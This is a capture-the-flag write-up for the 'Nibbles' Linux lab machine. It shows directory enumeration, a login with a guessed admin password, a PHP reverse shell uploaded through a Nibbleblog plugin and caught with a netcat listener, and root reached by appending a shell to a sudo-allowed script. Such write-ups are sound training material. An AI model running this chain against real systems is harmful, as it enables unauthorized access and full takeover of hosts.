# Nibbles
## Linux
## Easy

## Enumeration
Let's start with a simple nmap scan:
```bash
nmap -sC -sV -oN outputNMAP.txt $targetIP
```



Let's take a look at port 80.



Nothing to see. Let's check the source code.



Looks like the dev forgot a comment. Let's check if we can find anything interesting following what we found.



We can see the website is powered by Atom. Let's keep that in mind. I'll run a dir scan with gobuster.

```bash
gobuster dir -u http://10.129.11.45/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 16
```



I will also search for files with HTML and PHP extensions.

```bash
gobuster dir -u http://10.129.11.45/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 16 -x php,html
```



Let's take a look at the "admin.php" page. We find a login page. Using default credentials (admin:admin) we get this.



Let's try using onther password. I'll try these credentials (admin:nibbles).



It worked! 

## Foothold
I found a plugin call "My image" which allows me to upload a file. I'll try uploading a reverse shell.



After I uploaded the revershell I  went to "http://10.129.11.45/nibbleblog/content/private/plugins/my_image/" and found this.



I'll open a port on my machine and "image.php" (it's our reverseshell script).

```bash
rlwrap nc -lnvp 6666
```



It worked! Now let's upgrade the shell and get the flag.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
[Ctrl+z]
stty raw -echo
fg
export TERM=tmux-256color
ssty rows 67 columns 318

cd /home
ls
cd nibbler
cat user.txt
```

### We got the user flag !


## Privilege Escalation
Let's see what rights we have.

```bash
sudo -l
```



Tha's interesting. Looking in the folder we also find a "personal.zip". Let's unzip it.

```bash
unzip personal.zip
```



We can see the "monitor.sh" file was in the zip. Let's see what flag does it have.

```bash
ls -la personal/stuff/monitor.sh
```



We can edit the file. Let's make it start a shell as root and run it.

```bash
cd personal/stuff
echo "sudo /bin/bash" >> monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```


It worked!. Now let's get the root flag.

```bash
cat /root/root.txt
```

### We got the root flag.